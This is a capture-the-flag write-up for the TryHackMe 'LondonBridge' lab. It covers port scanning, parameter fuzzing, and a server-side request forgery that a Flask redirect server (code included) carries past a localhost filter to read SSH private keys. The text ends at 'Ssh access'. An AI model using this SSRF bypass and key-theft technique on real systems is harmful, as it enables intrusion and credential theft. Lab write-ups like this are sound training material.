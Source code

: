 ----------------

### CTF: THM
### Lab: LondonBridge

---------------

![image](https://github.com/user-attachments/assets/9fc3a6b2-580f-4581-a574-c403b9d47b7c)

---------------

- Rustscan's output
      
      ❯ rustscan -a 10.10.227.38 -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.227.38:22
      Open 10.10.227.38:8080
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 06:23 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:23
      Completed NSE at 06:23, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 06:23
      Completed Parallel DNS resolution of 1 host. at 06:23, 0.05s elapsed
      DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:23
      Scanning 10.10.227.38 [2 ports]
      Discovered open port 8080/tcp on 10.10.227.38
      Discovered open port 22/tcp on 10.10.227.38
      Completed Connect Scan at 06:23, 0.19s elapsed (2 total ports)
      Initiating Service scan at 06:23
      Scanning 2 services on 10.10.227.38
      Completed Service scan at 06:25, 124.91s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.227.38.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:25, 15.69s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:25
      Completed NSE at 06:26, 2.05s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:26
      Completed NSE at 06:26, 0.00s elapsed
      Nmap scan report for 10.10.227.38
      Host is up, received user-set (0.19s latency).
      Scanned at 2024-11-05 06:23:38 WAT for 143s
      
      PORT     STATE SERVICE    REASON  VERSION
      22/tcp   open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDziNs6aSHIQOJFilv8PhCPd676iD1TrhMYe4p4Mj2E3yaAl4xb8DNT2dhpcv6H8EvtCJnAbXmnFTTOZy14fd7FKc2/Mr4MNLsINFpMU8hc85g6S9ZEnWKlU8dw5jUUeZnAbHSTnq6ARvEbT/Y5seiWEJ7IBiUqptlUA2eiOU7g0DFwrYH7n40aDe0m6PKPIfI9G0XO0cJHISeJ0bsSES1uun2WHLM0sRx+17hrBgM2YfD9OevcltVMlQqWasP9lqf2ooOdBvQTq4eH5UyyuEzaRtQwBYP/wWQEVFacejJE1iT2VD6ZAilhlzo9mww9vqTEwGTvatH65wiyCZHMvrSb
      |   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuZrGZxDIlI4pU1KNZ8A87cWFcgHxRSt7yFgBtJoUQMhNmcw8FSVC54b7sBYXCgBsgISZfWYPjBM9kikh8Jnkw=
      |   256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkCeqFADY/YvhJyJabcs5DVTYbl/DEKEpBoluTuDdB1
      8080/tcp open  http-proxy syn-ack gunicorn
      | http-methods: 
      |_  Supported Methods: OPTIONS GET HEAD
      |_http-title: Explore London
      |_http-server-header: gunicorn
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Content-Length: 2682
      |     <!DOCTYPE html>
      |     <html lang="en">
      |     <head>
      |     <meta charset="UTF-8">
      |     <meta name="viewport" content="width=device-width, initial-scale=1.0">
      |     <title>Explore London</title>
      |     <style>
      |     body {
      |     font-family: Arial, sans-serif;
      |     margin: 0;
      |     padding: 0;
      |     background-color: #f2f2f2;
      |     header {
      |     background-color: #333;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     background-color: #444;
      |     color: #fff;
      |     padding: 10px 20px;
      |     text-align: center;
      |     color: #fff;
      |     text-decoration: none;
      |     margin: 0 10p
      |   HTTPOptions: 
      |     HTTP/1.0 200 OK
      |     Server: gunicorn
      |     Date: Tue, 05 Nov 2024 10:16:11 GMT
      |     Connection: close
      |     Content-Type: text/html; charset=utf-8
      |     Allow: OPTIONS, GET, HEAD
      |_    Content-Length: 0
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port8080-TCP:V=7.94SVN%I=7%D=11/5%Time=6729ABE1%P=x86_64-pc-linux-gnu%r
      SF:(GetRequest,B15,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
      SF:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConnection:\x20clos
      SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
      SF:02682\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n\x20\x2
      SF:0\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=\"v
      SF:iewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x
      SF:20\x20\x20\x20<title>Explore\x20London</title>\n\x20\x20\x20\x20<style>
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20body\x20{\n\x20\x20\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x
      SF:20\x20\x20\x20\x20\x20\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\
      SF:x20\x20\x20\x20\x20\x20background-color:\x20#f2f2f2;\n\x20\x20\x20\x20\
      SF:x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20header\x20{\n\x20\x20
      SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#333;\n\x2
      SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\n\x20\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\
      SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20center;\n\x20
      SF:\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20nav\x20{
      SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20
      SF:#444;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#fff;\
      SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020
      SF:px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-align:\x20cen
      SF:ter;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x
      SF:20nav\x20a\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20color:
      SF:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20text-decorat
      SF:ion:\x20none;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\
      SF:x200\x2010p")%r(HTTPOptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gu
      SF:nicorn\r\nDate:\x20Tue,\x2005\x20Nov\x202024\x2010:16:11\x20GMT\r\nConn
      SF:ection:\x20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAll
      SF:ow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x200\r\n\r\n");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's directory scan

![image](https://github.com/user-attachments/assets/0c475fb2-a5af-4129-a7c0-2453d2740f36)


- I tried the `view_image` route and got a 500 error when I tried the `GET` method.I tried the `POST` method and discovered it required the `image_url` parameter.Then,I tried to load a url to see the output but it just reflects it back.

![image](https://github.com/user-attachments/assets/22d97295-dc4e-4ffe-80ab-c1711b24da43)

- I fuzzed for more parameter with burp suite.I intercepted the curl request with burpsuite.

![image](https://github.com/user-attachments/assets/5742d7bf-fa9f-41f8-bcab-52313e411f68)

- Then,I fuzzed for params with `Burp Intruder`.I used the wordlist `common.txt` to fuzz.I got the param `www` which successfully loaded the url of the target.The endpoint is vulnerable to server side request forgery.

![image](https://github.com/user-attachments/assets/ff84ede2-75e2-4af1-b4a7-50307d8d9c03)

- I tried to load localhost and see if I can fuzz for internal ports but I got the `403` error.

![image](https://github.com/user-attachments/assets/a731fa11-a793-4eb9-8f0a-9cb9159ea031)

- I bypassed the 403 error by setting up a site which redirects to the localhost url.I exploited this by setting up a Flask server with the code below.The index page takes in 2 params which is the `port` and `file`.The port serves as the internal port we want to load,while the `file` param signifies the file that we want to read.

```python3
#! /usr/bin/env python3
from flask import Flask, redirect,request
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/',methods=['GET'])    
def root():
    port = request.args.get("port")
    file = request.args.get("file")
    if file != None:
        url =  f"http://127.0.0.1:{port}/{file}"
    else:
        url = f"http://127.0.0.1:{port}/"
    return redirect(url, code=301)
    
if __name__ == "__main__":
    app.run(host="<ip>", port=8080)
```

![image](https://github.com/user-attachments/assets/957e3bf8-62bb-45be-a479-0b00a57fedaa)

- Filter bypassed

![image](https://github.com/user-attachments/assets/cd6ba7d8-392c-417d-b590-2238f648695e)

- I was able to read the ssh's id_rsa and authorized_keys files.It should be noted that `&` should be passed url encoded as seen below.The `authorized_keys` file helped me identify the user.

![image](https://github.com/user-attachments/assets/e3f02a06-9ecf-4f8c-b277-08d89af8fb31)

- User `beth` identified

![image](https://github.com/user-attachments/assets/b8de72fe-9a79-46b6-b340-2bfe23cc9da9)

- Ssh access
















